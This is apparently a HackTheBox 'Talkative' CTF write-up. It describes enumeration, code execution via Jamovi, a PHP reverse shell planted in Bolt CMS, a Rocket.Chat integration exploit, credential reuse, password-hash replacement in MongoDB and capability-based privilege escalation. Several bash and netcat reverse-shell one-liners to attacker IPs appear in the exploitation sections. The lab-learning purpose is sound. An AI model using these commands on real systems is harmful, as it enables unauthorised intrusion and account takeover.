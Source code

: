 ```yaml
---
title: Talkative HackTheBox Writeup
tags: [writeup,rest,python,hackthebox,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/1.png)

## Scanning
We run nmap on ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/2.png)

## Enumeration
Add the domain "*talkative.htb*" in the file "*/etc/hosts*", access to the web service

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/3.png)

We list a few users:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/4.png)

We see that the cms is a **Bolt CMS**:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/5.png)

On port 3000 we have a **rocket.chat**, we found nothing useful on it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/6.png)

On port 8080 we have a **Jamovi**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/7.png)

We list **Jamovi** version *0.9.5.5.5*:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/8.png)


## Exploitation

```bash
system("id", intern=TRUE)
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/9.png)

We are trying to get up a revshell, although if we access it will probably be to a content...


```bash
system("bash -c 'bash -i >&/dev/tcp/10.10.14.32/443 0>&1'", intern=TRUE)
```

We get a connection to the server, we are effectively in a **docker**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/10.png)

We check the root directory, we see the **jamovi*** folder and an *.omv* file of the **Bolt** administration (remember the CMS we detected earlier).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/11.png)

As I didn't have netcat, I encoded it in base64 and passed it to my computer.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/12.png)

I didn't get complicated, used *grep -r* to search for keywords like "*password*", the passwords of several users came up.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/13.png)

We tried to test the credentials found, but none of them worked.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/14.png)

So I tried with classic users like "*root, admin...*" and the latter worked!

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/15.png)

We can't upload php files from the file upload, but we can edit existing php files, in my case I edited the "*bundles.php*" and inserted a revshell:

```bash
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.32/443 0>&1'")
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/16.png)

We set **netcat** to listen and we receive the connection:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/17.png)

We see that we are in another container:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/18.png)

**Ping** does not exist on the machine, so I did a **curl** to *172.17.0.1* and listed the web service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/19.png)

We test the credentials via **SSH**, get access as *saul* and read the user flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/20.png)


## Privilege Escalation
We launch **linpeas.sh** and list what could be vulnerable to *SUDO* and *Polkit*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/21.png)

We didn't find much else, so we launch the **pspy** tool and see that a file called "*update_mongo.py*" is running as root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/22.png)

It looks like the **rocket.chat** one is the one running with the **mongo**, but we don't know which **docker** it is running on.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/23.png)

So I launched a loop on the default port of **mongodb** to see the server response via a **curl**, I saw that the **mongodb** is located on the machine with IP *172.17.0.2*:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/24.png)

We port forward port *27017* with **Chisel** so we can work locally.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/25.png)

Connect to **mongodb** and list several databases:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/26.png)

We access the "*meteor*" database and list the **rocket.chat** tables:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/27.png)

We list the user "*saul*" and his password in bcrypt:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/28.png)

We tried the three passwords we have, but none of them is valid, but as we have access to the db we could modify it for one we know by changing the hash in bcrypt:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/29.png)

We are able to access the panel as administrator:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/30.png)

We list the version of **rocket.chat**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/31.png)

Searching for the version, I found this exploit:
##### Exploit: [https://github.com/CsEnox/CVE-2021-22911](https://github.com/CsEnox/CVE-2021-22911)

Although code can also be executed from **MondoDB** integrations (which is what this exploit below does).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/32.png)

```bash
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.62 555 >/tmp/f');
```

We run curl and get a revshell:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/33.png)

We transfer the **linpeas.sh** tool and run it, it shows us that we have *cap-dac-read-search* capability. Looking for information of the exploitation, I found this tool that I did not know it and I believe that it was the ideal moment after the return of the vacations to know new tools.

#### Tool: [CDK](https://github.com/cdk-team/CDK)

We see some goodness of **cdk** and we see that there is the "*cap-dac-read-search*", which comes perfectly to try to read the file *root.txt*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/34.png)

We run it and manage to read the file root.txt.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/35.png)




